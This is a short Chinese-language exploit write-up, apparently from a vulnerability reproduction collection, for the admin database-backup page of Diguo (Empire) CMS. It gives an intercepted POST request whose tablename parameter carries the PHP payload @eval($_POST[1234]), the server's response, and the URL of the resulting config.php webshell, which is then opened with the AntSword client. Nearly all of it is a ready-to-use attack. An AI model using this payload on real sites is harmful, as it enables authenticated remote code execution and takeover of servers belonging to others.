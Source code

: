 
使用bps抓包。点击备份，抓包。修改tablename的名字为php的信息。

```
POST /e/admin/ebak/phome.php HTTP/1.1
Host: www.diguo.com
Content-Length: 489
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1

……

ehash_e02b=37bded748e4584386415&rhash_c4a2=bdd19c4088ce&ehash_ho28t=3UDcxRasb3N97RyFArXK&ehash_5e03=e326dc43088d24d93327&rhash_264d=0d50e04c4c6a&rhash_J2s9U=9n2e91ZQZ5p0&ehash_6c2b=3e8ae51b0105e3b2e41e&phome=DoEbak&mydbname=www_diguo_com&baktype=0&filesize=300&bakline=500&autoauf=1&bakstru=1&dbchar=utf8&bakdatatype=1&mypath=www_diguo_com_20201125164337jHfvU5&insertf=replace&waitbaktime=0&readme=&autofield=&tablename%5B%5D=@eval($_POST[1234])&Submit=%E5%BC%80%E5%A7%8B%E5%A4%87%E4%BB%BD
```

提交后成功返回数据：查看到文件的路径
```
初使化备份成功，正在进入表备份．．．．．．<script>self.location.href='phome.php?phome=BakExe&t=0&s=0&p=0&mypath=www_diguo_com_20201125164337jHfvU5&waitbaktime=0&ehash_ho28t=3UDcxRasb3N97RyFArXK&rhash_J2s9U=9n2e91ZQZ5p0';</script>
```
然后使用蚁剑连接，访问config.php
http://www.diguo.com/e/admin/ebak/bdata/www_diguo_com_20201125164337jHfvU5/config.php

### 参考连接

https://www.cnblogs.com/yuzly/p/11369770.html






